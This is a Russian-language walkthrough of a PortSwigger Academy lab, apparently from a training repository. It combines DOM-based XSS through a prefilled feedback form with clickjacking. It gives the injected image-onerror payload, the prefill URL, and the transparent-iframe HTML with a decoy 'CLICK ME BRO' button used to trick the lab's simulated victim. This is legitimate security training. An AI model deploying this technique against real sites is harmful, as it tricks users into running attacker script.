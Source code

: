 Заходим на вкладку `Submit feedback`
и заполняем поля в попытках найти XSS
```
<img src=1 onerror=alert(1)>
2@2.com
3
test
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/4.%20Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/pics%20for%20walkthrough/1.png)

и видим, что XSS Отработало

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/4.%20Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/pics%20for%20walkthrough/2.png)

Далее сконфигурируем повторение данной XSS уязвимости, только при автозаполнении, добавив параметры
```
https://0a98001e031916ed80200dba00c200bd.web-security-academy.net/feedback?name=<img src=1 onerror=alert(1)>&email=test@test.com&subject=test&message=test2
```
и пройдя по этой ссылке удивидим предзаполненные поля, как нам и нужно
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/4.%20Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/pics%20for%20walkthrough/3.png)

Перейдем в `Exploit server `

используем `iframe`
```
<iframe src="https://0a98001e031916ed80200dba00c200bd.web-security-academy.net/feedback?name=<img src=1 onerror=alert(1)>&email=test@test.com&subject=test&message=test2"></iframe>
```
Расширим область `iframe` чтобы убедиться, что вставка отработала верно
```
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
</style>
<iframe src="https://0a98001e031916ed80200dba00c200bd.web-security-academy.net/feedback?name=<img src=1 onerror=alert(1)>&email=test@test.com&subject=test&message=test2"></iframe>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/4.%20Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/pics%20for%20walkthrough/4.png)

Перейдем во `View exploit` чтобы посмотреть, все ли так мы сделали

Видим, что все классно, продолжаем
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/4.%20Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/pics%20for%20walkthrough/5.png)

добавим кнопку `CLICK ME BRO` над `Submit feedback` и изменим на с `alert(1)` на `print()`

```
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 1000px;
        opacity: 0.1;
        z-index: 2;
    }
    div{
        position:absolute;
        top:810px;
        left: 50px;
        z-index: 1;
    }
</style>
<div>CLICK ME BRO</div>
<iframe src="https://0a98001e031916ed80200dba00c200bd.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=test@test.com&subject=test&message=test2"></iframe>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/4.%20Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/pics%20for%20walkthrough/6.png)
Перейдем во `View exploit` чтобы посмотреть, все ли так мы сделали

Видим, что все классно, продолжаем

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/4.%20Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/pics%20for%20walkthrough/7.png)


и установим `opacity` исходной страницы сразу в `0.00001 `
нажмем `Store` -> `Deliver exploit to victim` и получим уведомление об успешно выполненной лабораторной работе
